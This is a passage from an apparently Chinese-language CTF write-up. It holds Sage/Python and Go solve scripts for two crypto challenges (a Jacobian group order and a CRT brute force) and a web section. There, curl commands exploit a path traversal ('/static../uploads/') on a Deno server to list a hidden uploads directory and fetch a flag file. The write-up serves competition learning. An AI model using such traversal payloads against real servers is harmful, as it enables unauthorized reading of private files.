        # print("[*] Handling Proof-of-Work using subprocess...")
        io = conn
        io.recvuntil(b") solve ")
        challenge = io.recvline().strip().decode()
        print(f"[*] Received PoW challenge: {challenge}")

        # Run the external solver script and capture its output
        result = subprocess.run(
            ['python3', 'kctf_solver.py', 'solve', challenge],
            capture_output=True,
            text=True,
            check=True
        )
        solution = result.stdout.strip()

        print(f"[*] Calculated PoW solution: {solution}")
        io.sendlineafter(b"Solution? ", solution.encode())
        io.recvuntil(b"Correct\n")
        print("[+] PoW solved!")
            
    except Exception as e:
        log.warning(f"No PoW found or PoW failed: {e}")
        pass

    # --- Part 2: Recover f(x) via CRT ---
    conn.recvuntil(b'p = ')
    p = int(conn.recvline().strip())
    log.info(f"Received prime p = {p}")

    F = GF(p)
    R, x = PolynomialRing(F, 'x').objgen()

    congruences = []
    log.info("Requesting 3 points to recover f(x)...")
    for i in range(3):
        conn.sendlineafter(b'> ', b'1')
        conn.recvuntil(b'P.U = ')
        U_str = conn.recvline().strip().decode()
        conn.recvuntil(b'P.V = ')
        V_str = conn.recvline().strip().decode()
        U, V = parse_poly_str(U_str, R), parse_poly_str(V_str, R)
        congruences.append((V**2, U))
        log.success(f"Got point {i+1}")

    remainders, moduli = zip(*congruences)
    f = CRT_list(list(remainders), list(moduli)).monic()
    log.success(f"Recovered polynomial f(x) = {f}")

    # --- Part 3: Find True Order of G and Solve ---
    H = HyperellipticCurve(f)
    
    # CORRECTED LINE: Use the Frobenius polynomial as you suggested.
    group_order = sum(H.frobenius_polynomial())
    
    log.info(f"Full Jacobian group order is: {group_order}")
    
    # We still need the Jacobian object to work with its elements.
    J = H.jacobian()
    
    conn.sendlineafter(b'> ', b'2')
    
    # Parse the point G from server output
    conn.recvuntil(b'(G.U, G.V) = (')
    line = conn.recvuntil(b')', drop=True).decode()
    gu_str, gv_str = line.split(', ')
    G_U, G_V = parse_poly_str(gu_str, R), parse_poly_str(gv_str, R)
    log.info(f"Received point G: U={G_U}, V={G_V}")

    # Create the point G as a Jacobian element in Sage
    G_sage = J([G_U, G_V])
    identity = J(0) # Identity element

    # Find the true order by factoring the group order
    order_candidate = group_order
    prime_factors = factor(order_candidate)
    log.info(f"Factoring group order: {prime_factors}")

    for p_factor, exponent in prime_factors:
        for _ in range(exponent):
            test_order = order_candidate // p_factor
            if (test_order * G_sage) == identity:
                order_candidate = test_order
                log.info(f"Order is divisible by {p_factor}. New candidate: {order_candidate}")
            else:
                break

    true_order = order_candidate
    log.success(f"Found true order of G: {true_order}")

    conn.recvuntil(b'Give me the order !')
    conn.sendlineafter(b'>', str(true_order).encode())

    log.success("Correct order sent! Receiving flag...")
    flag = conn.recvall()
    print(flag.decode())

if __name__ == "__main__":
    solve()
```

## FITM

flag 显示是 MITM，也有人用格，但我不会格，于是爆！注意优化一下内存和 GoRoutine 数量即可

```bash
go build -o solver4_final solver4_final.go || chmod +x ./solve5.sage || ./solve5.sage
```

```python
#!/usr/bin/env sage
# Filename: solve5.sage

# Precise imports
from pwnlib.tubes.remote import remote
from Crypto.Util.number import getPrime, isPrime
import sys
import subprocess

# --- Configuration ---
HOST = "fitm.chal.idek.team"
PORT = 1337
N_INTERACTIONS = 11
GO_SOLVER_PATH = "./solver4_final"

def get_candidates_and_feed_solver(io, go_stdin):
    """
    Performs one interaction with the server to get shares, calculates
    candidates using FFT/DFT, and writes the result to the Go solver's stdin.
    """
    # 1. Find a special 64-bit prime p where p-1 is divisible by 12
    while True:
        k = getPrime(60)
        p = 12 * k + 1
        if p.bit_length() == 64 and isPrime(p):
            break

    print(f"[*] Using special prime p = {p}", file=sys.stderr)

    # 2. In GF(p), find a primitive 12th root of unity (w)
    F = GF(p)
    PR.<x> = PolynomialRing(F)
    f = x^12 - 1
    roots = f.roots(multiplicities=False)
    assert len(roots) == 12, "Failed to find 12 roots of unity."

    w = None
    # *** FIX: Iterate directly over the roots, not tuples ***
    for r in roots:
        if r.multiplicative_order() == 12:
            w = r
            break
    assert w is not None, "Failed to find a primitive 12th root of unity."

    # 3. Query the server
    io.sendlineafter(b">>> ", b"1")
    io.sendlineafter(b"What's Your Favorite Prime : ", str(p).encode())

    query_points = [w^k for k in range(12)]
    query_str = ",".join([str(pt) for pt in query_points])

    io.sendlineafter(b"> ", query_str.encode())
    response_line = io.recvline().decode()
    shares_str = response_line.split(" : ")[1]
    shares = [F(s) for s in eval(shares_str)]

    # 4. Use IDFT to calculate candidate coefficients
    candidates = []
    inv12 = F(1)/12
    for m in range(5, 12):
        am = 0
        for k in range(12):
            am += shares[k] * w^(-m * k)
        am *= inv12
        candidates.append(int(am))

    # 5. Feed the data to the Go solver via its stdin
    cand_strs = [str(c) for c in candidates]
    output_line = f"{p},{','.join(cand_strs)}"
    go_stdin.write(output_line + '\n')
    go_stdin.flush()

    print(f"[+] Gathered and sent candidates for p = {p}", file=sys.stderr)

def main():
    # --- Start the Go Solver Subprocess ---
    print("[*] Launching Go solver in the background...", file=sys.stderr)
    try:
        go_proc = subprocess.Popen(
            [GO_SOLVER_PATH],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=sys.stderr,
            text=True,
            bufsize=int(1)
        )
    except FileNotFoundError:
        print(f"[-] Error: Go solver executable not found at '{GO_SOLVER_PATH}'", file=sys.stderr)
        print(f"[-] Please compile it first: go build -o {GO_SOLVER_PATH} solver4_final.go", file=sys.stderr)
        sys.exit(1)

    # --- Interact with Server and Feed Solver ---
    io = remote(HOST, PORT)

    for i in range(N_INTERACTIONS):
        print(f"\n--- Interaction {i+1}/{N_INTERACTIONS} ---", file=sys.stderr)
        try:
            get_candidates_and_feed_solver(io, go_proc.stdin)
        except Exception as e:
            print(f"[-] An error occurred: {e}. Aborting.", file=sys.stderr)
            io.close()
            go_proc.kill()
            sys.exit(1)

    # --- Get Result from Go and Submit ---
    print("\n[*] All candidates sent to Go solver. Closing its input and waiting for the result.", file=sys.stderr)
    go_proc.stdin.close()

    result_dec = go_proc.stdout.readline().strip()
    go_proc.wait()

    if not result_dec:
        print("[-] Go solver finished without finding a solution.", file=sys.stderr)
        io.close()
        return

    print(f"[+] Go solver found the secret! (decimal): {result_dec}", file=sys.stderr)
    secret_hex = hex(int(result_dec))[2:]

    print(f"[*] Submitting final secret (hex): {secret_hex}", file=sys.stderr)
    io.sendlineafter(b">>> ", b"2")
    io.sendlineafter(b"Guess the secret : ", secret_hex.encode())

    io.interactive()
    io.close()

if __name__ == "__main__":
    main()
```

```golang
// Filename: solver4_final.go
package main

import (
	"bufio"
	"fmt"
	"math/big"
	"os"
	"runtime"
	"strings"
	"sync"
	"time"

	"github.com/schollz/progressbar/v3"
)

type CrtTask struct {
	Modulus    *big.Int
	Candidates []*big.Int
}

type CrtContext struct {
	nInv  *big.Int
	mInv  *big.Int
	term1 *big.Int
	term2 *big.Int
}

func NewCrtContext() *CrtContext {
	return &CrtContext{
		nInv:  new(big.Int),
		mInv:  new(big.Int),
		term1: new(big.Int),
		term2: new(big.Int),
	}
}

// A robust, symmetric implementation of CRT
func (c *CrtContext) Crt(a, m, b, n *big.Int) (*big.Int, *big.Int) {
	newMod := new(big.Int).Mul(m, n)
	c.nInv.ModInverse(n, m)
	c.term1.Mul(a, n)
	c.term1.Mul(c.term1, c.nInv)
	c.mInv.ModInverse(m, n)
	c.term2.Mul(b, m)
	c.term2.Mul(c.term2, c.mInv)
	result := new(big.Int).Add(c.term1, c.term2)
	result.Mod(result, newMod)
	return result, newMod
}

func findSecretDFS(level int, currentS, currentMod *big.Int, tasks []CrtTask, resultChan chan *big.Int, bar *progressbar.ProgressBar, ctx *CrtContext) *big.Int {
	select {
	case <-resultChan:
		return nil
	default:
	}

	if level == len(tasks) {
		bar.Add(1)
		bound := new(big.Int).Lsh(big.NewInt(1), 640) // 80 bytes * 8 bits/byte
		if currentS.Sign() > 0 && currentS.Cmp(bound) < 0 {
			return currentS
		}
		return nil
	}

	task := tasks[level]
	for _, candidate := range task.Candidates {
		newS, newMod := ctx.Crt(currentS, currentMod, candidate, task.Modulus)
		if result := findSecretDFS(level+1, newS, newMod, tasks, resultChan, bar, ctx); result != nil {
			return result
		}
	}

	return nil
}

func main() {
	numCPU := runtime.NumCPU()
	procs := numCPU - 2
	if procs < 1 {
		procs = 1
	}
	runtime.GOMAXPROCS(procs)
	fmt.Fprintf(os.Stderr, "System has %d CPU cores. Go program will use %d cores.\n", numCPU, procs)

	fmt.Fprintln(os.Stderr, "Go Solver: Waiting for data from stdin...")
	scanner := bufio.NewScanner(os.Stdin)
	var tasks []CrtTask
	for scanner.Scan() {
		parts := strings.Split(scanner.Text(), ",")
		if len(parts) < 2 { continue }
		mod, _ := new(big.Int).SetString(parts[0], 10)
		task := CrtTask{Modulus: mod}
		for i := 1; i < len(parts); i++ {
			cand, _ := new(big.Int).SetString(parts[i], 10)
			if cand.Sign() < 0 {
				cand.Add(cand, mod)
			}
			task.Candidates = append(task.Candidates, cand)
		}
		tasks = append(tasks, task)
	}
	if err := scanner.Err(); err != nil {
		fmt.Fprintf(os.Stderr, "Error reading from stdin: %v\n", err)
		os.Exit(1)
	}
	if len(tasks) == 0 {
		fmt.Fprintln(os.Stderr, "No valid data received from stdin. Exiting.")
		os.Exit(1)
	}
	fmt.Fprintf(os.Stderr, "Go Solver: Received %d sets of candidates. Starting search...\n", len(tasks))

	totalPaths := int64(1)
	for _, task := range tasks {
		totalPaths *= int64(len(task.Candidates))
	}
	bar := progressbar.NewOptions64(
		totalPaths,
		progressbar.OptionSetDescription("Searching"),
		progressbar.OptionSetWriter(os.Stderr),
		progressbar.OptionShowCount(),
		progressbar.OptionSetWidth(40),
		progressbar.OptionThrottle(100*time.Millisecond),
		progressbar.OptionSpinnerType(14),
	)

	startTime := time.Now()
	resultChan := make(chan *big.Int, 1)
	var wg sync.WaitGroup

	initialTask := tasks[0]
	for _, initialCandidate := range initialTask.Candidates {
		wg.Add(1)
		go func(startCand *big.Int, startMod *big.Int) {
			defer wg.Done()
			ctx := NewCrtContext()
			if result := findSecretDFS(1, startCand, startMod, tasks, resultChan, bar, ctx); result != nil {
				select {
				case resultChan <- result:
				default:
				}
			}
		}(initialCandidate, initialTask.Modulus)
	}

	go func() {
		wg.Wait()
		close(resultChan)
	}()

	finalSecret, ok := <-resultChan
	bar.Finish()
	duration := time.Since(startTime)

	// --- *** MODIFIED OUTPUT *** ---
	if ok {
		fmt.Println(finalSecret)
		fmt.Fprintf(os.Stderr, "\nGo Solver: Success! Found secret in %v.\n", duration)
	} else {
		fmt.Fprintf(os.Stderr, "\nGo Solver: Search completed, but no valid secret was found.\n")
		fmt.Fprintf(os.Stderr, "Time elapsed: %v\n", duration)
	}
}
```

# Web

## *midi visualizer

deno 启动的 midi server

本地重现环境后，发现可以直接下载 `上传目录` 的文件，但我们并没有文件名，于是构造暴露出目标目录下所有信息


> 更多在于尝试或者读 deno 源码

payload:

```
> curl https://midi-visualizer-web.chal.idek.team/static/../uploads/
Not Found%                                                                 

> curl https://midi-visualizer-web.chal.idek.team/static../uploads/  | rg flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  524k  100  524k    0     0   416k      0  0:00:01  0:00:01 --:--:--  416k
                        <a href="./flag-41589d62bca4bcc031e55ca2.mid">flag-41589d62bca4bcc031e55ca2.mid</a>
```

最后将下载下来的 midi file 上传到当前网站，借助其可视化功能，可以得到 flag


